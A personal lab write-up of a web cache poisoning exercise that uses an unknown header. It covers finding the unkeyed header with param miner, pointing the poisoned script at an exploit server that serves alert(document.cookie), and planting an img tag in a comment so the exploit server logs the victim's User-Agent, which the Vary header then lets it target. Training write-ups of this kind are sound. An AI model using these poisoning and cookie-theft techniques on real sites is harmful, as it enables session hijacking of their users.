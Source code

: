 This lab is vulnerable to web cache poisoning. A victim user will view any comments that you post. To solve this lab, you need to poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser. However, you also need to make sure that the response is served to the specific subset of users to which the intended victim belongs.

# Recon

As in previous labs it's necessary to check the application resources, this time regarding a script related to the comments functionality.

![[Advanced Topics/Web Cache Poisoning/labs/design/WCP using and unknown header/images/entrypoint.png]]

That didn't seem to be the entry point for the attack, I used param miner on the requests made when accessing a post and found the entry point:

![[Advanced Topics/Web Cache Poisoning/labs/design/WCP using and unknown header/images/cache-poison.png]]

# Vuln assessment

1. Find the request to poison

Now craft an appropriate payload to execute the desired action and post a comment to that particular post, to make the user check the "comments" and deliver the malicious cached response.

![[header-injected.png]]

Now the problem is getting the user to view the malicious cached page, inspect how the comments functionality works:

2. Set up the exploit server

Insert the `alert(document.cookie)` payload matching the file path that the server uses:

![[exploit-server-setup.png]]


3. The attack requires finding out the target's User-Agent

Doing this require inserting a simple `img` HTML tag on the content so that, when the target user checks the comment the User-Agent is logged on the exploit server

```
<img src="exploit-server.com" />
```


Checking the server's logs I found the target's User-Agent

![[victim-user-agent.png]]


![[vary-header.png]]

The `Vary` header is also present, this is used to target the right subset of users.


3. Poison the cache for the target User-Agent

![[Advanced Topics/Web Cache Poisoning/labs/design/WCP using and unknown header/images/exploited.png]]